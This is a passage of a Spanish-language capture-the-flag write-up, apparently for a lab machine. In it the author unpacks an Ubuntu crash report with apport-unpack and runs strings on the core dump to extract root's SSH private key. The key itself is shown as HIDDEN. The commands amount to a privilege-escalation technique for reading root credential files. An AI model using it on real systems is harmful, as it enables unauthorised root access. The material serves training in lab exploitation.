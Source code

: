 ```bash
dasith@secret:/var/crash$ ls -lt
total 84
-rw-r----- 1 dasith dasith 31393 Mar 30 22:38 _opt_count.1000.crash
-rw-r----- 1 root   root   27203 Oct  6 18:01 _opt_count.0.crash
-rw-r----- 1 root   root   24048 Oct  5 14:24 _opt_countzz.0.crash
```
Nuestro archivo es `_opt_count.1000.crash` ya que es el más reciente.

Intento leer este archivo pero parece imposible ya que contiene muchos carácteres ilegibles. Una vez más busco en internet:

![image](https://user-images.githubusercontent.com/67548295/160957851-dec12c91-825b-47d3-9c38-b1eff6e72ea0.png)

Parece que hay que utilizar la herramienta `apport-unpack`, la sinxtaxis es muy simple, solo hay que especificar el archivo .crash y el destino del directorio generado.

Bien, hagamoslo:

```bash
dasith@secret:/var/crash$ apport-unpack _opt_count.1000.crash /tmp/test
dasith@secret:/var/crash$ cd /tmp/test/
dasith@secret:/tmp/test$ ls -l
total 432
-rw-r--r-- 1 dasith dasith      5 Mar 31 01:30 Architecture
-rw-r--r-- 1 dasith dasith 380928 Mar 31 01:30 CoreDump
-rw-r--r-- 1 dasith dasith      1 Mar 31 01:30 CrashCounter
-rw-r--r-- 1 dasith dasith     24 Mar 31 01:30 Date
-rw-r--r-- 1 dasith dasith     12 Mar 31 01:30 DistroRelease
-rw-r--r-- 1 dasith dasith     10 Mar 31 01:30 ExecutablePath
-rw-r--r-- 1 dasith dasith     10 Mar 31 01:30 ExecutableTimestamp
-rw-r--r-- 1 dasith dasith      5 Mar 31 01:30 ProblemType
-rw-r--r-- 1 dasith dasith      7 Mar 31 01:30 ProcCmdline
-rw-r--r-- 1 dasith dasith      4 Mar 31 01:30 ProcCwd
-rw-r--r-- 1 dasith dasith     61 Mar 31 01:30 ProcEnviron
-rw-r--r-- 1 dasith dasith   2144 Mar 31 01:30 ProcMaps
-rw-r--r-- 1 dasith dasith   1336 Mar 31 01:30 ProcStatus
-rw-r--r-- 1 dasith dasith      1 Mar 31 01:30 Signal
-rw-r--r-- 1 dasith dasith     29 Mar 31 01:30 Uname
-rw-r--r-- 1 dasith dasith      3 Mar 31 01:30 UserGroups
```
Lo importante está en el archivo `CoreDump`, usemos la herramienta `strings` para ver si podemos ver la clave **id_rsa** en el archivo:

```bash
[...]
Could not open %s for writing                                                                                                                                                                
:*3$"                                                                                                                                                                                        
Save results a file? [y/N]: l words      = 45                                                                                                                                                
Total lines      = 39                                                                                                                                                                        
/root/.ssh/id_rsa                                                                                                                                                                            
-----BEGIN OPENSSH PRIVATE KEY-----         

             HIDDEN

-----END OPENSSH PRIVATE KEY-----              
aliases                                        
ethers                                         
group                                          
gshadow                                        
hosts                                          
initgroups                                     
```
